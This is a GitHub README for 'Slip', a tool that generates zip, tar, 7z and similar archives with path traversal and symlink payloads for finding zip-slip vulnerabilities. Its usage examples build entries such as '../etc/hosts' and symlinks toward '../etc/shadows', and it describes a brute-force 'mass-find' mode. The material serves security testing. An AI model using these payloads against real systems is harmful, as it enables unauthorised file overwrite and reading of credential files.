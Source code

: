 # Slip

![license](https://img.shields.io/github/license/0xless/slip?label=GPL-3)


Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z**, **jar**, **war**, **apk** and **ipa** archives (and every compression algorithm supported by each format)
- Allows to hunt for both **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports multiple payloads of different types (paths/symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different "depths" 
- Supports the usage of custom "dotdotslash" sequences
- Implements a "massfind" mode, that uses a payload dictionary to create the archive

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path:name
  --file-content TEXT             Content of the files in the archive,
                                  mandatory if paths are used.
  --force-name                    If set, the filename will be forced exactly
                                  as provided.
  --search INTEGER                If set, paths and symlink will generate
                                  multiple traversal paths to try and find the
                                  target file or path at different depths.
                                  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --mass-find-placeholder TEXT    Mass-find placeholder for filename in
                                  dictionary  [default: {FILE}]
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.
```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive
```

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" archive
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts:linkname" archive  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/:foo`, path: `foo/hosts`).

Create a tar archive with multiple payloads (from the default mass-find dictionary) to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive
```
⚠️ WARNING: mass-find mode supports paths, this translates to a bruteforce attempt to rewrite a specific file, but it potentially uses A LOT of payloads, so the result is unpredictable. Use with caution.

## Notes
- Depending on the library that handles the decompression, results may vary greatly.

  Different compression algorithms can trigger different behaviours during the extraction, but also the usage of certain path traversal payloads in names or the co-presence of path traversal payloads in names and symlink can lead to weird behaviours during the extraction. Many combinations of compression algorithms, archive types and payloads are relatively untested and should be evaluated on a case by case basis to obtain the best results.

- Archive types: jar|war|apk|ipa are supported as simple zip archives.  
The archive format is correct, but valid archives should contain compatible contents.
Valid contents can be set manually and are not yet supported by slip.
Please note that many software that handles these formats, treat them as zip files.
This means that using the correct extension will suffice.

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
